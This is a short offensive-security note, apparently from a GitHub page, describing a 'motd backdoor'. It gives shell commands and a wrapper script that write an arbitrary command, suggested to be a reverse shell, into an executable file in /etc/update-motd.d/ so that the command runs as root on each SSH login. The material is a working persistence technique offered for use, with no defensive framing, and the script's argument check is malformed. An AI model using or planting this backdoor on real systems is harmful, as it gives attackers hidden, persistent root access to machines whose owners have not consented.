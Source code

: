 # motd Backdoor

#### motd (message of he day) is printed every time we login via SSH service.&#x20;

we can contaminate the motd file with a reverse shell or a local shell command

```
printf "#!/bin/bash\n$1" | sudo tee /etc/update-motd.d/na
sudo chmod +x /etc/update-motd.d/na
sudo /etc/init.d/ssh start
```

now we can SSH into the machine and get a root shell.

### script:

```
#!/bin/bash

if [ $1 -z ]
then
        echo "$0 <shell commands or binary file path>"
        exit 1
fi

printf "#!/bin/bash\n$1" | sudo tee /etc/update-motd.d/na

sudo chmod +x /etc/update-motd.d/na

sudo /etc/init.d/ssh start

echo "[+] Now try to ssh..."
```
